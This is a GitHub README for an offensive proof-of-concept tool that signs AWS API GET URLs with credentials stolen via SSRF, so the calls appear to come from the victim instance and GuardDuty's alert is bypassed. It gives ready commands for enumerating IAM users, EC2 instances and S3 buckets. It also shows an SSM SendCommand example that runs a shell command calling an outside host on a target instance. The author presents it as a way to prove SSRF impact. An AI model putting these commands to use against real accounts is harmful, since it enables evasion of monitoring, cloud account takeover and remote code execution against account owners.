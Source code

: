 # aws_url_signer

POC tool to create signed AWS API GET requests to bypass Guard Duty alerting of off-instance credential use via SSRF

# What?

AWS has a Guard Duty alert to advise when an AWS instance credential is used outside of the instance itself. This will give you as the account owner a heads up when the instance credentials are stolen using a vulnerability like a Server Side Request Forgery (SSRF) from the Metadata URL and then subsequently used from the attackers system.

This alerting relies on the instance credential being taken off the owning host and then used to make an AWS API query from a machine that is not in the associated AWS account. This is a common circumstance when instance credentials are comprimised via SSRF - attacker gets the instance creds from the metadata service on a vulnerable EC2 host, configures those credentials locally on their own local machine, and then calls the AWS API from there to try and further compromise the associated AWS account.  

Even though its not obviously exposed in the various client libraries (except for S3 signed URLs) however, it is possible to make general requests of the AWS API using HTTP GET requests. This approach enables you to create signed URLs to query the AWS API, send them via the same mechanism by which you compromised the credentials in the first place (e.g. SSRF), and bypass the Guard Duty alerting. This is because AWS API calls made in this way are not being made outside of the AWS account owning the credential - because you make the API call by sending the URL through the SSRF, from the perspective of the API server they are coming from the same EC2 instance that owns that credential.

There is [another approach](https://github.com/Frichetten/SneakyEndpoints) available to also bypass these alerts, but in comparison this method requires much less infrastructure and setup and can support more services. As a downside however, this approach prevents you from being able to use existing offensive tools that work with compromised credentials, requires a potentially greater understanding of the AWS API, and may be limited by the retrieval capabilities of the SSRF used.


# Usage

This tool is a proof of concept that implements the AWS v4 API signing algorithm for GET URLS. It has very minimal requirements, using `botocore` just to get the list of available services and API versions. 

It has a simple command line interface to run standalone and can also be imported as a module into other Python 3 code to allow it to be more easily used with other exploit code (e.g. SSRF, XXE, etc).

In the very simplest form, you can set your stolen credentials into the standard environment variables (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN`) and call the tool like the following to run the `GetCallerIdentity` action for the `sts` service.

```
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
```

This will spit out a signed URL, with a 180 second expiry time, that can be sent in your exploit to make the associated API call. The response will tell you about the  "caller Identity" of the credential you have.

You can do more complex stuff by sending parameters to the call as a JSON encoded string.

The following example uses SSM to generate a URL to remotely execute code against a managed Linux instance `i-xxxxxxxxxxxxxxxxx` in the account.

```
./aws_url_signer.py -environment -service ssm -action SendCommand -region ap-southeast-2 -parameters '{"InstanceIds": ["i-xxxxxxxxxxxxxxxxx"], "DocumentName": "AWS-RunShellScript", "Parameters": {"commands": ["curl http://test.site/123"]}}'
```


You can also stick the .py file in your Python path and use it in your code like so.

```
from aws_url_signer import AWSApiUrlGenerator

api = AWSApiUrlGenerator(access_key, secret_key, session_token)
request_url = api.create_service_url('s3', 'ListBuckets', region='ap-southeast-2')

```

To a large extent you do need to know the AWS API to be able to use this in a useful way, although I have provided some of the examples I have personally tested below.  To some extent you can use it in a similar way to the [AWS cli](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html), but the parameter format will be different in a number of cases, so you can combine it with the general API documentation [here](https://docs.aws.amazon.com/index.html). Find the service you want, and take what would normally be sent in a POST request for a particular API call and supply it JSON encoded to the `parameters` option, and it _SHOULD_ work.


# "Legacy" APIs

Some of the AWS API endpoints such as Route53 and CloudFront are using what I'm referring to as a "legacy" API calling format, which is different from the approach used by a lot of other AWS APIs, and hence results in a different looking URL. 

To explain by example, lets look at the [ListDistributions](https://docs.aws.amazon.com/cloudfront/latest/APIReference/API_ListDistributions.html) action for CloudFront.

According to the documentation, tt uses a syntax like so.
```
GET /2020-05-31/distribution?Marker=Marker&MaxItems=MaxItems HTTP/1.1
```

In this case, the API version `2020-05-31` is included as a path parameter in the URL, instead of a query parameter where it is for most other calls, and the action of `ListDistributions` is no where to be found. Instead there is a path parameter of `distribution` immediately following the version which is serving as the action.

I have added edge case code for the services Im aware of that use this calling convention into the tool. You can create a signed URL for this particular call like so - using the value of the **path** parameter immediately following the version as your `action`. The API version will be automatically extracted from botocore and filled in by the tool.

```
./aws_url_signer.py -environment -service cloudfront -action distribution
```

The calling convention here also uses optional query parameters `Marker` and `MaxItems`. The `parameters` command line option of the tool can be used as with the other non legacy calling convention to specify these.


For API calls following this approach that use additional **path** parameters **after** the one immediately following the version, I have added a `path-parameters` command line option you can use to provide these. It takes an **ordered** comma seperated list of path parameter values to add to the URL.

Take [GetDistribution](https://docs.aws.amazon.com/cloudfront/latest/APIReference/API_GetDistribution.html) as an example. It provides the `ID` of the distribution to retrieve as a path parameter immediately following the **"action"** of `distribution`.

```
GET /2020-05-31/distribution/<Id> HTTP/1.1
```

If I wanted to call this using `E1XXXXXXXXXXXX` as the ID value, I would call the tool like so:

```
./aws_url_signer.py -environment -service cloudfront -action distribution -path-parameters E1XXXXXXXXXXXX
```

As another example, imagine a theoretical API call with action `whatever` with two **ordered** URL **path** parameters `param1` and `param2`.

```
GET /2020-05-31/whatever/<param1>/<param2> HTTP/1.1
```

This would be called like so:

```
./aws_url_signer.py -environment -service cloudfront -action whatever -path-parameters param1,param2
```

So far Ive only added code for the Route53 and CloudFront services to allow for this "legacy" calling convention, if you find any others that do this that Ive missed then please raise an Issue or PR (services using this convention are in a list in the constructor of the API object).


# Warning 

This tool creates a signed https URL that can perform AWS API calls as the compromised user. Standard warnings apply for leaving the URL where others can see it or having it leaked in logs or other intermediate devices. The URLs do timeout after a default period of 180 seconds, so the URLs do have a limited lifetime.


# Alpha code

This should be considered Alpha quality code.

At the time of writing there are 313 services currently supported in the AWS API - I have only tested a small fraction of them that I personally needed to prove impact of SSRF related vulnerabilities.

While the AWS v4 API signing process is more or less standard across the various supported services, there are differences in where regional endpoints sit, and the specific nature of the signed payload and signing process for some services. This could mean that some services I have not specifically tested may not work, but I think many probably will.

The process by which more complex parameter structures are converted into GET compatible versions is also rather unique. It's possible my code to convert parameters from a standard JSON compatible format is wrong or incomplete, and this will only become clear once someone tries to send parameters more complex than the SSM code execution example above.

Feel free to raise issues or PRs if you find any problems.


# Examples

Here are some examples of running the command line version of the tool. There are some additional commented examples for using the module in code in the source.
```
./aws_url_signer.py -environment -service iam -action ListUsers
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
./aws_url_signer.py -region ap-southeast-2 -environment -service ssm -action DescribeInstanceInformation 
./aws_url_signer.py -region ap-southeast-2 -environment -service ec2 -action DescribeInstances -parameters '{"MaxResults": "5"}'
./aws_url_signer.py -region ap-southeast-2 -environment -service s3 -action ListBuckets
```
